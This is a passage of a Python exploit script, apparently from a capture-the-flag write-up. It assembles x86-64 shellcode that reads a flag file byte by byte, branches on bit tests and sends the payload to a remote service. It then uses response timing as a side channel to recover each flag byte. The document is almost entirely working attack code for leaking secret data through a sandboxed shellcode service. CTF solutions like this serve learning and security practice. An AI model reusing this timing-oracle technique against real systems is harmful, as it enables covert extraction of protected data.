 ```python
        sc += mov_rax_val(0)

        for _ in range(0x10):
            sc += push_rax()

        for _ in range(len(flag)):
            sc += read_syscall(0x3, 0x1)
        
        sc += read_syscall(0x3, 0x1)
        sc += mov_rax_rsp_offval(0)
        sc += push_rax()
        sc += pop_rbx()
        sc += pop_rbx()
        sc += push_rax()
        sc += mov_rax_val(curr_byte)
        sc += and_rax_rbx()
        sc += jnz_offval(len(sc) + 6) # correct
        
        # non_correct:
        sc += close_syscall()
        sc += exit_syscall()
        
        # correct:
        sc += mov_rax_val(0)
        sc += add_rax_val(0x01)
        sc += shl_rax_val(8)
        sc += add_rax_val(0xff)
        sc += shl_rax_val(8)
        sc += add_rax_val(0xff)
        sc += shl_rax_val(8)
        sc += add_rax_val(0xff)
        sc += push_rax()
        sc += pop_rbx()
        sc += pop_rbx()
        sc += push_rax()
        sc += mov_rax_val(0)

        # compare
        compare = len(sc)
        sc += and_rax_rbx()
        sc += jnz_offval(len(sc) + 6) # equal
        sc += add_rax_val(1)
        sc += jmp_offval(compare)

        # equal:
        sc += close_syscall()
        sc += exit_syscall()
        
        # input("send inst...")
        a = datetime.datetime.now()
        r.send(sc)
        r.poll(True)
        b = datetime.datetime.now()
        c = b - a
        r.close()
        if c.total_seconds() > 0.1:
            break

    flag += bytes([curr_byte])
    print(flag)
```
